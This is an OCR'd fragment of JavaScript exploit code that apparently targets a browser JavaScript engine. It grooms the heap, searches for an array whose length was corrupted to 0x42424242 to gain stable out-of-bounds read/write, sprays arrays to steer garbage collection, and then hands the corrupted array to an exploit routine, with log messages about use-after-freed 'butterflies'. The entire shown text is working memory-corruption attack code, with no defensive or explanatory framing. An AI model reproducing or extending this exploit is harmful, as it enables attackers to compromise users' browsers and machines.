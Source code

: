             setLen(oob_rw_unstable, oob_rw_unstable_ind)

            for (let i = 0; i < groom.length; i++) {
                // Find which array we just corrupted
                if(groom[i].length == 0x42424242) {
                    oob_rw_stable = groom[i];
                    break;
                }
            }
            if (!oob_rw_stable) {
                throw("Groom seems to have failed :(");
            }
        }

        // chew CPU to avoid a segfault and help with gc schedule
        for (let i = 0; i < 0x100000; i++) { }


        // Attempt to clean up some
        let f = []
        for (let i = 0; i < 0x2000; i++) {
            f.push(new Array(16).fill(2261634.6098039214))
        }

        save.push(victim_arrays)
        save.push(v)
        save.push(f)
        save.push(groom)

        if (oob_rw_stable) {
            log("Found stable corrupted butterfly! Now the fun begins...");
            exploit(oob_rw_stable, groom);
            break;
        }

    }
    throw("Failed to find any UAF'ed butterflies");